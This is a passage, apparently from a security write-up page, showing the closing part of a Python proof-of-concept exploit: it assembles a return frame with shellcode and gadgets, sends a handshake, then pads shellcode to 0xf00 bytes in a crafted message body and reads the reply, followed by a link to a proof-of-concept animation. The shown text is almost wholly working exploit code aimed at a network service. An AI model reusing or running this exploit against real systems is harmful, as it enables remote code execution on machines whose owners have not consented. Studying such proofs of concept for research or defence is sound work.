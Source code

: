 ```python
  buff = ret_shellcode + cs + eflags + sp + ss + g0 + g1_1 + g1_2 + g2 + buff
  return buff


###
## Main
#

# 1. send handshake
msg = b"Hello\0\0\0\0"
send()
print(recv_until(b"Hi"))


# 2. send header + body
header = get_header()

size = 0xf00
buff = get_shellcode()
body = buff + (b"A" * (size - len(buff))) + b"X" + b"0"*7

msg = header + body
send()
print("Sending {} bytes".format(len(msg)))

rets = recv()
print("[+] receiving", rets)


# ref "recv" errors:
#   - https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-recv
#   - https://learn.microsoft.com/en-us/windows/win32/winsock/windows-sockets-error-codes-2

s.close()
print("[+] Done!")

```


![poc.gif](/files/2022-11-20/poc.gif)

